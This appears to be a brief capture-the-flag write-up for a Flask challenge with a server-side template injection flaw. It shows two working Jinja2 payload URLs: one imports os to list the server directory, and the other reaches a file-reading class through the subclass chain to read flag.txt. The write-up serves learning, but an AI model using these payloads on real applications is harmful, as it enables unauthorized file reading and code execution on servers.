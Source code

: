 
## Hey Buddy!

![img](https://i.ibb.co/pdSMfVs/image.png)


## Solution:

This challenge is developed using flask and it contains the SSTI (Server Side Template Injection) vulnerability. It has two steps to exploit.

Step 1: Checking where is the flag file location

```
https://h3y-buddy.vishwactf.com/submit?name={{request.application.__globals__.__builtins__.__import__(%27os%27).listdir()}}
```
![img](https://i.ibb.co/nksZN8w/image.png)

Step 2: Reading flag file using the vulnerability

```
https://h3y-buddy.vishwactf.com/submit?name={{%27abc%27.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0](%27flag.txt%27).read()}}
```

![img](https://i.ibb.co/tLrfQyX/image.png)
